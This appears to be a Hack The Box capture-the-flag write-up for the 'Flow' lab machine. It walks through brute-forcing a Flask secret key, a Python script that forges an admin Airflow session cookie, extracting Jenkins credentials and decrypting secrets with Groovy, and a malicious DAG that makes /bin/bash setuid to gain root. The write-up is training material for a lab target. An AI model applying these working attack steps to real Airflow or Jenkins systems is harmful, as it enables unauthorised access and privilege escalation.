



# Flow
```
Nmap scan report for flow.htb (10.129.172.173)
Host is up (0.082s latency).
Scanned at 2021-07-24 02:37:27 CEST for 341s
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
| http-title: Airflow
|_Requested resource was http://flow.htb:8000/login/?next=http%3A%2F%2Fflow.htb%3A8000%2Fhome
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 8080 the web server is hosting a Jenkins. Unfortunately default credentials doesn't work.

On port an Airflow application is also prompting us for credentials.



When trying to connect on this interface we noticed the web server assigned us a flask cookie. We tried to bruteforce the cookie secret key using flask-unsign and it was successful:

```
Tue Jul 27 00:47:21 wil@pwn:~/htb/business_ctf/boxes/flow$ flask-unsign -c '.eJx9kEFPwzAMhf9KlXO1toOOphLijAQSJy5oqtzUSSO8pEo8yjTx3zEgcYKdEr9879nOWQ2WIM-YVf9yVgXLoVZIwQenSnUf3oD8VFB0PmyKJ0LIWHA6FeBAFLX_2JcSkTDPqrdAGaVcMB0gYJAwTkdRTE524PiKQfXKbnUzoumaG41oNWzbdjd2ur3qtFwb3TTmGo3ZSfsJ3JAZ-JgH64kxiR2I5IWiAUIpJbJUCzgcZp85ptPXAjPz0leVpbhuZh77rq7rSnaoSJjq7ht_iO4xTkjPHtfbWkL-NL2bePhx_UcsMdJlwsQQ0LCP4TL3O6D86id-9oYb.YP87aA.XhCS-DqQkiEOiZKSHxJVb0RTYvY' -w all.txt -u
[*] Session decodes to: {'_flashes': [('warning', 'Invalid login. Please try again.')], '_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'dag_status_filter': 'all', 'locale': 'en', 'page_history': ['http://flow.htb:8000/log/list/?page_LogModelView=0', 'http://flow.htb:8000/xcom/list/', 'http://flow.htb:8000/pool/list/', 'http://flow.htb:8000/connection/list/', 'http://flow.htb:8000/log/list/']}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (9600): (H`_key=2499d4a4f8ad842fb5ed41
[+] Found secret key after 36096 attempt
'temporary_key'
```
When analyzing the front page source code we can see the Flask-AppBuilder is used:
```
<!-- Adapted from: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/flask_appbuilder/templates/appbuilder/flash.html -->
<link rel="stylesheet" type="text/css" href="/static/css/flash.css">

<!-- Split messages into two arrays: one for regular alerts, another for DAG import errors -->
```
By digging in this repository we were looking for the user session management. requirements.txt file shows the flask-login library: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/requirements.txt#L17.

By overlooking at flask-login cookie's attributes we saw the field `user_id` was used to identify users: https://github.com/maxcountryman/flask-login/blob/0.4.1/flask_login/login_manager.py#L311.

We forged our own flask cookie we the following python code:

```python
#!/usr/bin/env python3

from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask_unsign.helpers import LegacyTimestampSigner
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

def sign(value: dict, secret: str, legacy: bool = False, salt: str = "cookie-session"):
    return get_serializer(secret, legacy, salt).dumps(value)

def get_serializer(secret: str, legacy: bool, salt: str):
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})


payload = {'_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'locale': 'en','user_id':"1"}
cookie = sign(payload, "temporary_key")
print(cookie)
```

```bash
Tue Jul 27 00:52:17 wil@pwn:~/htb/business_ctf/boxes/flow$ ./signer2.py 
.eJwNi8EOwiAQBf9lz1y2SmX5GULXR2pEahZ6avx3uc1MMhelYug7xZJrh6P0hX1yQxsUh52zaLeSxvFGo0hlEd6ggR8CFMmL9-sWxN-CTGRh1jtUV3JUD80V85mjo7PD0us5len3B_hYJJA.YP88ww.mqaoAXLqq4po1q0p66xPG8NFg8I
```

By changing the cookie in our browser, we sucessfully obtain an admin session. While crawling the application we were looking for juicy information such as password. The Jenkins password was indeed in the application. It was in the Admin/Variables menu. Cleartext passwords can be obtained by exporting them:




The exported file contains the credentials:
```
{
    "JENKINS_BUILD_PASSWORD": "sVLfGQzHyW8WM22"
}
```

By checking the logs in Browse/Logs menu we can obtained a list of user (amelia or root).

The credentials root:sVLfGQzHyW8WM22 were working on the Jenkins login portal port 8080.

Running a groovy script we found amelia credentials.

Another groovy script can retrieve amelia credentials. These credentials can be used on SSH to get user flag.
```
println(hudson.util.Secret.decrypt("{AQAAABAAAAAg+HUDOG0OqnfR1ExuHUvv0Qb/0QDNMPmncSVOHYZFSJHSNn/RFDjy9MU6JdEoxgy0}"))
v]C:ZZ6*pmv6jgBJ

ssh amelia@flow.htb
amelia@flow:~$ cat user.txt
HTB{w4tch_0ut_th0s3_0ld_v3rs10ns}
```

The note.txt in the user folder suggest to drop dags files in `/opt/dags` and they will be proceed. We also can run `sudo airflow` which will process the dags files. We noticed we could hijack a python library, here `os`.
We just need to submit a dag file with a valid syntax, this can be found on the following [tutorial](https://www.invivoo.com/en/creating-your-first-apache-airflow-dag/).


```
amelia@flow:/opt/dags$ cat osef.py
import os
os.system("chmod +s /bin/bash")

from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from airflow.utils.dates import days_ago


default_args = {
    'owner': 'airflow',
    'start_date': days_ago(5),
    'email': ['airflow@my_first_dag.com'],
    'email_on_failure': False,
    'email_on_retry': False,
    'retries': 1,
    'retry_delay': timedelta(minutes=5),
}

my_first_dag = DAG(
    'first_dag',
    default_args=default_args,
    description='Our first DAG',
    schedule_interval=timedelta(days=1),
)


amelia@flow:/opt/dags$ sudo airflow backfill osef -s 2020-03-01 -e 2022-03-05
[2021-07-26 23:17:03,177] {__init__.py:50} INFO - Using executor SequentialExecutor
[2021-07-26 23:17:03,177] {dagbag.py:417} INFO - Filling up the DagBag from /root/airflow/dags
[2021-07-26 23:17:03,184] {dagbag.py:259} ERROR - Failed to import: /root/airflow/dags/osef.py
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/airflow/models/dagbag.py", line 256, in process_file
    m = imp.load_source(mod_name, filepath)
  File "/usr/lib/python3.8/imp.py", line 171, in load_source
    module = _load(spec)
  File "<frozen importlib._bootstrap>", line 702, in _load
  File "<frozen importlib._bootstrap>", line 671, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 783, in exec_module
  File "<frozen importlib._bootstrap>", line 219, in _call_with_frames_removed
  File "/root/airflow/dags/osef.py", line 16, in <module>
    'retry_delay': timedelta(minutes=5),
NameError: name 'timedelta' is not defined
Traceback (most recent call last):
  File "/usr/local/bin/airflow", line 37, in <module>
    args.func(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/utils/cli.py", line 80, in wrapper
    return f(*args, **kwargs)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 188, in backfill
    dag = dag or get_dag(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 163, in get_dag
    raise AirflowException(
airflow.exceptions.AirflowException: dag_id could not be found: osef. Either the dag did not exist or it failed to parse.

amelia@flow:/opt/dags$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
amelia@flow:/opt/dags$ bash -p
bash-5.0# cat /root/root.txt
HTB{d0nt_run_4rb1tr4ry_d4gs}
```